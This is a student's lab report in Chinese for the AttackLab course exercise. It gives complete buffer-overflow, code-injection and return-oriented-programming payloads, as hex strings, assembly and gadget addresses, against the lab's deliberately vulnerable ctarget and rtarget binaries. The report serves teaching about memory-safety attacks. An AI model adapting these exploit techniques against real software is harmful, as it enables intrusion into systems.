

# AttackLab 实验报告

## 10235501419 李佳亮	2024/11/7

## 一、所用文件 

- ctarget反汇编得到的ctarget.asm
- rtarget反汇编得到的rtarget.asm
- hex2raw
- cookie.txt
- 实验文档


## 二、实验过程

### 1. Phase 1：Stack Smashing Attack

阅读实验文档4.1，Phase 1是要在ctarget中`test()`函数调用`getbuf()`结束后跳转到`touch1()`函数而不是返回到`test()`。

阅读ctarget.asm，发现`getbuf()`的栈帧为`40`字节，会从文件输入流读取字符串放到栈顶，从低地址到高地址依次放置每个字节。

本部分，把`返回地址`覆写为`touch1()`的地址即可。

输入字符串如下：

```plaintext
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00	/* pad */
c0 17 40 00 00 00 00 00 /* 返回后 跳转到touch1() */
```

将其保存为`phase1.txt`，用`hex2raw`将其编码为字符串形式的文件`phase1_raw.txt`，再将其作为命令行参数作为输入。成功的结果截图如下：




### 2. Phase 2：Code Injection Attack

阅读实验文档4.2，Phase 2是要在ctarget中`test()`函数调用`getbuf()`结束后，要把`%rdi`寄存器中的值设置为`cookie`的值后跳转到`touch2(unsigned val)`函数。这就需要往运行时栈中注入可执行代码的字节编码，实现“把`%rdi`寄存器中的值设置为`cookie`的值，然后跳转到`touch2()`”这一操作。

查看`cookie.txt`，得到其值为`0x59b997fa`。

exploit code的具体的汇编代码为：

```assembly
# 易犯错！立即数不要忘记加'$'
movl     $0x59b997fa, %edi	# 把cookie存进%rdi寄存器中
pushq    $0x4017ec			# 把函数touch2()的地址压栈
ret							# 返回，即跳转到touch2()
```

**注意**：指令`ret`背后的操作：把`%rsp`中的地址`pop`掉（即`%rsp += 8`），并跳转到这个地址。而`%rsp`中的地址被用`push`指令设置为`touch2()`的地址。

通过gcc汇编再objdump反汇编，得到这些操作的目标代码字节表示。

```assembly
phase2.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	push   $0x4017ec
   a:	c3                   	ret    
```

可执行代码不需要改变顺序，因为可执行代码从低地址向高地址执行，和攻击字符串存入栈的方向一致。

要想跳转到可执行代码，需要设置`返回地址`到exploit code的位置。我们把可执行代码放到`getbuf()`的栈帧中的某一个位置，然后用gdb在`getbuf()`函数内的某一处打断点，得到`%rsp`的地址，再根据具体可执行代码与栈顶位置的偏移量（这里exploit code就放在了栈顶位置）算出这个地址。注意，用gdb调试时也必须传入一个非空文件作为命令行参数，否则会产生Segmentation Fault。


最终的输入字符串如下：

```plaintext
bf fa 97 b9 59 68 ec 17 /* <- exploit code */
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* pad */
78 dc 61 55 00 00 00 00	/* 返回后 跳转到exploit code的地址 */
```


### 3. Phase 3：Code Injection Attack

阅读实验文档4.3，Phase 3是要在ctarget中`test()`函数调用`getbuf()`结束后，要把`%rdi`寄存器的值设置为一个字符串的首地址，这个字符串包含 `cookie` 的16进制表示；具体来说，这个字符串是把`cookie`中的每一个字符（或字节）变为16进制，格式为一个不带 `0x` 前缀的8字节16进制代码，以`'\0'`（即00）结尾。

我们的exploit code所要做的就是，

- 把字符串存储在运行时栈中；
- 把字符串地址加载到`%rdi`中；
- 跳转到`touch3()`函数。

```assembly
# cookie：0x59b997fa
movq    $0x39623935, 0x30(%rsp)
movq    $0x61663739, 0x34(%rsp)
movb    $0x0, 0x38(%rsp)

leaq    0x30(%rsp), %rdi
push    $0x00000000004018fa
ret
```

**注意**：

1. 字符串应该放在函数`test()`的栈帧中，因为当前`getbuf()`的栈帧会在未来调用其他函数时被覆写；

2. 将字符串移入运行时栈中时，我们只能以`32`位为单位移动，这是因为`movq`只能以表示为`32`位补码的数字的立即数作为源操作数，经符号扩展到`64`位传入到目的；而`movabs`虽然可以以`64`位立即数作为源，但只能以寄存器为目的；此外，我们不能使用`movb`，`movw`或`movl`移动，因为这样产生的exploit code会超出`test()`栈帧的大小；
3. 这里采用了`lea`指令将字符串首地址加载到`%rdi`中，也可以用gdb得到字符串首地址具体的地址，用`mov`操作，但这样做显得舍近求远；
4. 注意把`cookie`字符串传入栈的顺序，字符串的第一个字符到最后一个字符在栈中是从低地址到高地址，且勿忘记字符串结尾的`'\0'`。

接下来要做的工作与Phase 2相同，得到了最后要输入的字符串：

```plaintext
48 c7 44 24 30 35 39 62 /* <- exploit code */
39 48 c7 44 24 34 39 37
66 61 c6 44 24 38 00 48 
8d 7c 24 30 68 fa 18 40
00 c3 00 00 00 00 00 00
78 dc 61 55 00 00 00 00	/* 返回后 跳转到exploit code的地址 */
```

----

此外，还有一种可选的思路，`cookie`字符串通过Stack smash写入`test()`的栈帧中。

exploit code要做的只有后两项，汇编代码即为

```assembly
movq    %rsp, %rdi
push    $0x00000000004018fa
ret
```

这里`movq %rsp, %rdi`是因为我们将会在返回值的“上一行”覆写字符串，而这正好是执行exploit code时`%rsp`指向的位置。当然也可以用gdb得到字符串首地址具体的地址。

攻击字符串如下：

```plaintext
48 8d 7c 24 00 68 fa 18 /* <- exploit code */
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00	/* pad */
78 dc 61 55 00 00 00 00 /* 返回后 跳转到exploit code的地址 */
/* 在返回值的'上一行'插入cookie的16进制表示，这正好是执行exploit code时%rsp指向的位置 */
35 39 62 39 39 37 66 61
00						/* hex representation of cookie */
```


### 4. Phase 4：Return-Oriented Programming Attack

阅读实验文档第5部分，rtarget使用了两项技术来提升代码安全性。

1. 运行时栈位置随机化，这使得我们无法确定exploit code的位置，从而无法覆写返回地址使程序跳转到exploit code。
2. 将栈内存标记为不可执行，即使我们能够设置程序计数器指向exploit code的起始位置，程序也会报segmentation fault。

但是程序中的指令序列在内存中的位置每次运行时是固定的。`gadget`是已有程序中的一段指令序列，是对程序中的指令的”再利用“，通过截取已有指令序列，执行与这段序列原意图不同的操作。

阅读文档、结合所学，有以下总结：

- 一个可被选用的gadget应该在完成攻击者的目标操作后立刻正确编码返回指令，或在`c3`前有一些**独立编码**且**不影响攻击**的代码，如占位操作`nop(0x90)`，不改变寄存器的操作如`test`，或者其他不影响攻击所用的寄存器的操作；
- 我们通过把gadget在程序中的地址覆写到函数的返回地址来执行第一条gadget的指令；
- 如果要通过一连串的gadget完成一系列的操作，我们只需要把一系列gadget的地址在栈中从低地址往高地址排即可。这是因为每当执行一个gadget的时候，`%rsp`指向的是这个gadget的地址所存的位置的'上一行'，gadget执行末尾的`ret`操作时，会执行'上一行'的语句并将`%rsp`再往上移一行；
- 再比如，如果要想向寄存器中存入指定的立即数，可以寻找含`pop`指令的gadget，把立即数放在这个gadget的地址所存的位置的“上一行”。

---

阅读实验文档5.1，它允许我们在rtarget的`start_farm()`和`mid_farm()`之间选取2个gadget来重复Phase 2的攻击。总的思路为：寻找gadget，把注入代码中的`cookie`写入到`%rdi`寄存器中，再调用`touch2()`。

把`cookie`写入`%rdi`最简单的方法就是找一个gadget做`pop %rdi`指令，然后把`cookie`放在这个gadget的地址所存的位置的“上一行”。可惜并没有找到编码这个指令的目标代码，于是只能找一个中介寄存器。通过寻找，寻找到`58`编码`popq %rax`，`48 89 c7`编码`movq %rax, %rdx`，而且它们后面的指令都不会影响gadget正常返回。

```assembly
00000000004019c3 <setval_426>:
# 48 89 c7：movq %rax, %rdi，90是nop
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret    

00000000004019ca <getval_280>:
# 58：popq %rax，90正好是nop 
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3     
```

于是攻击字符串如下：

```plaintext
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00	/* pad */
cc 19 40 00 00 00 00 00 /* popq %rax，此时%rsp指向cookie这一行 */
fa 97 b9 59 00 00 00 00 /* cookie(数字0x59b997fa) */
c5 19 40 00 00 00 00 00 /* movq %rax, %rdx */
ec 17 40 00 00 00 00 00 /* touch2() */
```


### 5. Phase 5：Return-Oriented Programming Attack

阅读实验文档5.2，Phase 5重复Phase 3的攻击。相比于Phase 3，由于运行时栈随机化，这导致获得`cookie`字符串的绝对位置变得困难，但在farm中有一个很显眼的函数`add_xy()`，它编码指令`lea (%rdi,%rsi,1),%rax`。我们可以借助`绝对位置=某个已知的绝对位置+偏移量`的思想，把某时刻的栈顶地址存入`%rdi`（或`%rsi`），再把`cookie`字符串与这个地址之间的相对距离存入`%rsi`（或`%rdi`），这样我们就可以把字符串首地址加载到`%rax`中，从而进一步移动到`%rdi`中。

`cookie`字符串应该存在栈的“最深处”（即地址最大处），因为它不是一个可被跳转到的地址，放在中间会切断攻击代码的执行。

大体步骤如下：

#### 1. 把栈顶位置移入`%rdi`

由于此后我们要用到很多`mov`指令，我们在farm中检索目标代码`58`（因为`movl`指令包含在`movq`指令中），找出所有可以用到的`mov`指令。

| gadget地址 |     mov效果     |
| :--------: | :-------------: |
|  0x4019a2  | mov %rax, %rdi  |
|  0x4019c5  | mov %rax, %rdi  |
|  0x4019dd  | mov %eax, %edx  |
|  0x401a06  | mov %rsp, %rax  |
|  0x401a13  | mov %ecx, %esi  |
|  0x401a27  | mov %ecx, %esi  |
|  0x401a34  | mov %edx, %ecx  |
|  0x401a42  | mov % eax, %edx |

由于没有直接得到`mov %rsp, %rdi`，于是，我们可以先把`%rsp`移入`%rax`，再把`%rax`移入`%rdi`，即使用`0x401a06`和`0x4019a2`。

#### 2. 把偏移量移入`%rsi`

要把偏移量移入`%rsi`，需要`pop`指令。但由于farm中只有`pop %rax`，只能找`%rax`作为中介。则下一行应该写`pop`进去的偏移量。由于偏移量目前未知，这“一行”的8字节先暂时空缺，待到覆写完`cookie`字符串再修改。

下面就要把`%rax`移入`%rsi`。查上面的表，要拆为三个步骤：`mov % eax, %edx`，`mov %edx, %ecx`和`mov %ecx, %esi`，即栈地址从小到大分别存入`0x401a42`，`0x401a34`和`0x401a27`。

#### 3. 调用`lea (%rdi,%rsi,1),%rax`

这一指令的地址为`0x4019d6`。

#### 4. 把`%rax`移入`%rdi`

查表，得到gadget的地址`0x4019c5`。

#### 5. 调用`touch3()`

其地址为`0x4018fa`。

#### 6. 覆写`cookie`字符串

覆写字符串后，计算出偏移量为72。

综上，输入字符串如下：

```plaintext
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 /* mov rsp rax */
c5 19 40 00 00 00 00 00 /* mov rax rdi; rdi所存为'c5'的位置 */
cc 19 40 00 00 00 00 00 /* pop rax; 此时rsp指向'下一行'的offset */
48 00 00 00 00 00 00 00 /* offset = 72 = 0x48 */
42 1a 40 00 00 00 00 00 /* mov eax edx */
34 1a 40 00 00 00 00 00 /* mov edx ecx */
27 1a 40 00 00 00 00 00 /* mov ecx esi */
d6 19 40 00 00 00 00 00 /* lea (%rdi,%rsi,1),%rax */ 
a2 19 40 00 00 00 00 00 /* mov rax rdi */
fa 18 40 00 00 00 00 00 /* touch3() */
35 39 62 39 39 37 66 61
00                      /* byte representation of cookie */
```

